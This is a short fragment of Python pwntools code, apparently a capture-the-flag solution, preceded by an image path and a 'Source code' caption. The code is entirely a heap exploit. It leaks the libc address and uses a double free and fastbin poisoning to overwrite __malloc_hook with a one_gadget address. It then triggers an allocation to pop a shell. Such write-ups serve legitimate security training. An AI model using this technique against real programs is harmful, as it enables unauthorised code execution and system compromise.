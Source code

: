 ```python
info(f"LIBC: {hex(libc.address)}")

## double free
add(2, 0x68)
delete(2)
write(2, p64(libc.sym.__malloc_hook-35))

# poison
add(3,0x68)
add(4,0x68)
write(4 , b"A" * 19 + p64(libc.address + gadget))

# pop a shell
add(5, 6)

io.interactive()
```
